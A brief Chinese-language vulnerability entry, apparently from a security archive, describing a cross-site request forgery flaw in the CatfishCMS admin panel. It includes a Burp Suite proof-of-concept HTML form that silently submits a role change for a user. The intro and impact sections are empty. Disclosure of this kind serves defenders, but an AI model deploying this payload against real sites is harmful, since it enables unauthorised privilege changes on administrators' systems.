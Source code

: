 ```yaml
---
title: CatfishCMS后台csrf
id: zhfly2835
---
```


# CatfishCMS后台csrf

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

首先需要登录后台

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
  <form action="http://0-sec.org/index.php/admin/index/modifymanage.html?c=73" method="POST">
      <input type="hidden" name="uid" value="73" />
      <input type="hidden" name="juese" value="3" />
      <input type="hidden" name="verification" value="05f176843c20e12c1364e80b9869ac17" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html> 
```

修改前

![image](../img/ee21b48a30d913fea6ec98ba097af76f.png)

修改后

![image](../img/2c361930ecb8c3da0eae8de9fabf19db.png)